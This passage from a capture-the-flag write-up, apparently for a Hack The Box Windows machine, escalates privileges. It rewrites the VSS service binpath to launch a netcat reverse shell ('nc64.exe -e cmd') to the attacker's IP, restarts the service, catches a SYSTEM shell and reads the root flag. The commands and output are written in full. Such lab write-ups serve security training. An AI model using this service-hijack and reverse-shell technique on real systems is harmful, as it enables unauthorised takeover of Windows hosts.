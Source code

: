 Unfortunately both failed, apparently svc-printer doesnt have Service Control Manager access.

Searching on Google, we found an example for the VSS service. We will run the commands as on the example, entering our Kali tun0 IP and port of our nc listener:

```shell
# Start nc listener on Kali
sudo nc -lvnp 443

# Enter the following command on target evil-winrm PowerShell CLI
sc.exe config VSS binpath="C:\Windows\Temp\nc64.exe -e cmd 10.10.14.206 443"
```

Nice! It was successful:

```shell
[SC] ChangeServiceConfig SUCCESS
```

Now restart the service using the following commands:

```shell
# Stop VSS
sc.exe stop VSS

# Start VSS again
sc.exe start VSS
```

It works! We got a reply on our nc listener, giving us a shell as NT AUTHORITY\SYSTEM:

```shell
listening on [any] 443 ...
connect to [10.10.14.206] from (UNKNOWN) [10.129.95.241] 55969
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

Note: If the shell we got through nc listener stops responding and we cant run any commands, repeat the process again and dont wait too long to enter a command on our nc listener shell.
### Root Flag
Now we can get the root.txt flag:

```shell
type C:\Users\Administrator\Desktop\root.txt
```
